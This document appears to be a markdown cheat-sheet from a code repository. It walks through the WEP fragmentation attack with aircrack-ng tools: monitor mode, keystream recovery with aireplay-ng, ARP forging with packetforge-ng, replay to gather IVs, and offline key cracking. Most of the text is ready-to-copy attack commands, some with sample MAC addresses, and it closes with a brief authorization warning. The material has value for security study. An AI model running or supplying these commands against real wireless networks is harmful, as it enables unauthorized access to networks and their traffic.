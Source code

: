 # Fragmentation Attack — Purpose & Quick Overview

Short purpose: capture or generate enough PRGA (keystream) bytes from a WEP-protected AP using 802.11 fragmentation, so you can forge packets (most commonly an ARP request) and then replay them to rapidly produce IVs for offline WEP cracking.

---

## Key terms

- **WEP** — Wired Equivalent Privacy (insecure legacy Wi‑Fi encryption).
- **IV (Initialization Vector)** — per-packet public value used with the WEP key; collecting many IVs enables attacks.
- **PRGA (Pseudo Random Generation Algorithm)** — RC4 keystream bytes generated per IV; XORed with plaintext to produce ciphertext. Knowing PRGA lets you encrypt/decrypt.
- **Fragmentation attack** — exploit where attacker crafts fragmented frames and uses known plaintext/LLC header to recover PRGA bytes across fragments.
- **ARP request/relay** — a small predictable broadcast packet often used to generate many IVs when replayed.
- **Monitor mode** — NIC mode that captures and injects raw 802.11 frames (required).

---

## Step-by-step workflow (concise)

1. **Enable monitor mode**    
    - `sudo airmon-ng start wlan0` → usually creates `wlan0mon`.
    - Verify with `iwconfig` (should show `Mode:Monitor`).

2. **Scan and capture**
    - Start airodump to record traffic and identify target AP/clients and channel:
	    ```bash
        sudo airodump-ng wlan0mon -c <channel> -w WEP
        ```
    - Note: output files `WEP-01.cap`, `WEP-01.csv` etc.

3. **Launch fragmentation attack to obtain PRGA (.xor)**
    - Run aireplay-ng fragmentation mode:
        ```bash
        sudo aireplay-ng -5 -b <AP_BSSID> -h <source_MAC> wlan0mon
        ```
    - Follow prompts to choose a captured data frame if requested. aireplay-ng will attempt to build fragments and show messages like "Trying to get 1500 bytes of a keystream" and will save a `.xor` file (e.g. `fragment-<timestamp>.xor`).

4. **Inspect capture to find IP/MAC info (optional but helpful)**
    - Use tcpdump or Wireshark to read the chosen packet and extract source/dest IP and MACs:
        ```bash
        tcpdump -s 0 -n -e -r replay_src-<timestamp>.cap
        ```

5. **Forge ARP request using PRGA**
    - Use packetforge-ng with the `.xor` file to create an encrypted ARP request (or other packet types):
        ```bash
        packetforge-ng -0 -a <AP_BSSID> -h <STA_MAC> -k <AP_IP> -l <STA_IP> -y fragment-xxxx.xor -w forgedarp.cap
        ```
    - Notes: `-0` = ARP request. `-y` points to PRGA/.xor file.

6. **Inject forged packet (Interactive Packet Replay)**
    - Replay forged ARP to the network to cause the AP to broadcast replies and generate many IVs:
        ```bash
        sudo aireplay-ng -2 -r forgedarp.cap -h <STA_MAC> wlan0mon
        ```
    - Monitor `airodump-ng` to watch the `#Data, #/s` and the Frames counter for the station rise — this indicates IVs are being generated.
        
7. **Optionally run ARP replay (fast IV generation)**    
    - In a separate terminal, run an ARP replay to amplify IV collection:
        ```bash
        sudo aireplay-ng -3 -b <AP_BSSID> -h <STA_MAC> wlan0mon
        ```
    - `-3` stores captured ARP requests (replay attack) and can replay them to force the AP to create many IVs quickly.
        
8. **Crack WEP offline**
    - Once enough IVs are collected in the capture file (aircrack-ng will indicate progress), run:
        ```bash
        aircrack-ng -b <AP_BSSID> WEP-01.cap
        ```
    - When sufficient IVs exist, aircrack-ng (PTW/Korek methods) will display `KEY FOUND! [ xx:xx:xx:xx:xx:xx ]`.        

---

## Command & reference snippets (practical quick copy)

- Enable monitor mode: `sudo airmon-ng start wlan0`    
- Confirm: `iwconfig`
- Airodump capture: `sudo airodump-ng wlan0mon -c 1 -w WEP`
- Fragmentation attack: `sudo aireplay-ng -5 -b A2:BD:32:EB:21:15 -h 42:E9:11:39:88:AE wlan0mon`
- View chosen packet: `tcpdump -s 0 -n -e -r replay_src-0805-191842.cap`
- Build ARP packet: `packetforge-ng -0 -a <AP> -h <STA> -k <AP_IP> -l <STA_IP> -y fragment.xor -w forgedarp.cap`
- Interactive packet replay: `sudo aireplay-ng -2 -r forgedarp.cap -h <STA_MAC> wlan0mon`
- ARP replay (fast IVs): `sudo aireplay-ng -3 -b <AP_BSSID> -h <STA_MAC> wlan0mon`
- Crack: `aircrack-ng -b <AP_BSSID> WEP-01.cap`

---

## Practical tips & gotchas

- The LLC/SNAP header gives you the first 8 bytes of predictable plaintext (useful for deriving PRGA). ARP packets are small and predictable which is why forged ARPs are used.    
- If the captured packet lacks IP addresses, use `-k 255.255.255.255 -l 255.255.255.255` with packetforge-ng to create broadcast ARP-like packets.
- Ensure your wireless card supports injection and monitor mode (test with `aireplay-ng --test wlan0mon`).
- Some modern APs or WPA3 networks may not be vulnerable — this method targets WEP only.
- Be careful with legal/ethical boundaries: only test on networks you own or have explicit authorization to test.

---

## Summary

Fragmentation attacks exploit WEP’s per-fragment RC4 keystream application and predictable LLC/SNAP headers to recover PRGA bytes by causing the AP to reassemble attacker-supplied fragments; the recovered PRGA lets you forge an ARP request that, when replayed, generates a large number of IVs quickly — making WEP cracking feasible offline with aircrack-ng.